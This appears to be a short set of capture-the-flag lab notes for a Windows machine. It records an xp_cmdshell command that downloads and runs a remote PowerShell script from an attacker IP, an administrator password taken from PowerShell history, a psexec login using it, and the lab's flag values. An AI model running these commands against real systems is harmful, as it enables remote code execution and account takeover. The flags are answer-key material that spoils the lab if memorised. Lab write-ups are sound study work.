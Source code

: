- Tags: #[[Windows Initial Steps]] #mssql #psexec
- MSSQL Shell
	- ```powershell
	  xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://10.10.14.147:8000/rv.ps1\")
	  ```
- **User flag** at `C:\users\sql_svc\Desktop\user.txt`
	- 3e7b102e78218e935bf3f4951fec21a3
	  background-color:: green
- Administrator password found on shell #history
	- `C:\users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`
		- #+BEGIN_CAUTION
		  /user:administrator MEGACORP_4dm1n!!
		  #+END_CAUTION
- #privesc: Get an administrative shell via psexec
	- ```bash
	  impacket-psexec 'administrator:MEGACORP_4dm1n!!@10.129.40.162'
	  ```
- **Root flag** at `C:\users\Administrator\Desktop\root.txt`
	- b91ccec3305e98240082d4474b848528
	  background-color:: green